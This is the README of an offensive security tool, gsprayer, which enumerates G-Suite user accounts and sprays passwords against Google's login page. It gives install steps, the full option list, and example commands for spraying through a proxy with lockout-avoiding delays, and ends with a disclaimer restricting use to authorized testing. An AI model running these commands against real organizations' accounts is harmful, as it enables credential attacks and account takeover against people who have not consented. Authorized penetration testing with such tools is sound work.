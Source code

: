 ```
.d8888b.   .d8888b.  8888888b.  8888888b.         d8888 Y88b   d88P 8888888888 8888888b.
d88P  Y88b d88P  Y88b 888   Y88b 888   Y88b       d88888  Y88b d88P  888        888   Y88b
888    888 Y88b.      888    888 888    888      d88P888   Y88o88P   888        888    888
888         "Y888b.   888   d88P 888   d88P     d88P 888    Y888P    8888888    888   d88P
888  88888     "Y88b. 8888888P"  8888888P"     d88P  888     888     888        8888888P"
888    888       "888 888        888 T88b     d88P   888     888     888        888 T88b
Y88b  d88P Y88b  d88P 888        888  T88b   d8888888888     888     888        888  T88b
 "Y8888P88  "Y8888P"  888        888   T88b d88P     888     888     8888888888 888   T88b
```

A DOM-based G-Suite password sprayer and user enumerator

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.


### Installing

First, clone the repository

```
git clone https://github.com/yok4i/gsprayer.git
```

Once inside it, run `poetry` to install the dependencies

```
poetry install
```

Alternatively, you can install them with `pip`

```
pip install -r requirements.txt
```

### Help

Use `-h` to show the help menu

```
poetry run ./gsprayer.py -h

usage: gsprayer.py [-h] [-t TARGET] (-u USERNAME | -U FILE) [-o OUTPUT] [-r N] [--headless] [--proxy PROXY] [--wait WAIT] [-v]
                   {enum,spray} ...

G-Suite Password Sprayer.

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target URL (default: https://accounts.google.com/)
  -u USERNAME, --username USERNAME
                        Single username
  -U FILE, --usernames FILE
                        File containing usernames
  -o OUTPUT, --output OUTPUT
                        Output file (default depends on subcommand)
  -r N, --reset-after N
                        Reset browser after N attempts (default: 1)
  --headless            Run in headless mode
  --proxy PROXY         Proxy to pass traffic through: <ip:port>
  --wait WAIT           Time to wait (in seconds) when looking for DOM elements (default: 3)
  -v, --verbose         Verbose output

subcommands:
  valid subcommands

  {enum,spray}          additional help
    enum                Perform user enumeration
    spray               Perform password spraying

```

There is also help menu for each subcommand:

```
poetry run ./gsprayer.py <subcommand> -h
```


## Examples

Enumerate valid accounts from a company using G-Suite, in headless mode

```
poetry run ./gsprayer.py -r 50 -U emails.txt --headless enum
```

Perform password spraying using a proxy and waiting 30 minutes between each password iteration

```
poetry run ./gsprayer.py -r 1 -U emails.txt -P passwords.txt --proxy 127.0.0.1:9050 spray --lockout 30
```

### Note

If you are using a proxy with a protocol other than HTTP, you should specify the schema like `socks5://127.0.0.1:9050`.


## Versioning

We use [SemVer](http://semver.org/) for versioning. For the versions available, see the [tags on this repository](https://github.com/yok4i/gsprayer/tags). 


## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details


## Acknowledgments

* This project was heavily inspired by [0xZDH/msspray](https://github.com/0xZDH/msspray)


## Disclaimer

This tool is intended for educational purpose or for use in environments where you have been given explicit/legal authorization to do so.
